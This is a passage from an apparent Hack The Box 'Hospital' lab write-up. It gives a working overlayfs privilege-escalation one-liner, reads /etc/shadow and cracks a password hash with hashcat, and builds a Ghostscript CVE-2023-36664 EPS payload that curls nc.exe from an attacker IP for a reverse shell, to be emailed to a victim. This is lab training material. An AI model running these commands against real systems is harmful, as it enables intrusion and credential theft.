 ## Privesc on Linux Server 
Further enumeration shows that the Linux machine is vulnerable to CVE-2023-32629 & CVE-2023-2640 privilege escalation exploits based on the machine kernel which is 5.19.0-35-generic Ubuntu, the exploit works in a path where www-data can read and write.

poc.sh 
```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```
![privesc on LS](/assets/img/htb/hospital/privesc_linux_server_2.png)

Upon achieving root access, the /etc/shadow file is accessible, allowing for the extraction of hashes for cracking attempts.

![reading /etc/shadow](/assets/img/htb/hospital/reading_shadow.png)

Using hashcat, the password for 'drwilliams' is successfully cracked. `qwe123!@#`

```bash
hashcat -a 0 -m 1800 drwilliams_hash /usr/share/wordlists/rockyou.txt
```
## Access to the Windows server

The credentials obtained of drwilliams work for the https://hospital.htb webmail.

![drwilliams webmail](/assets/img/htb/hospital/drwilliams_webmail_1.png)

An email originating from drbrown@hospital.htb instructs drwilliams to send an .eps file intended for visualization with Ghostscript.

![email from drbrown](/assets/img/htb/hospital/email_from_drbrown_1.png)

A vulnerability in Ghostscript, identified as CVE-2023-36664, enables command injection upon opening a PS or EPS file, potentially resulting in code execution.

Use the [GhostScript Command Injection POC](https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection) to create a malicious EPS file and gain a reverse shell.

The first step is injecting code that will download nc.exe from the attacker server.

```bash
python CVE_023_36664_exploit.py --inject --payload 'curl 10.10.14.26/nc.exe' --filename file.eps
```

![running the payload](/assets/img/htb/hospital/curl_nc_ghostscript.png)

Access the compose function, attach the malicious .eps file, set the recipient as Drbrown, and proceed to send the email.

![composing email](/assets/img/htb/hospital/composing_email_1.png)
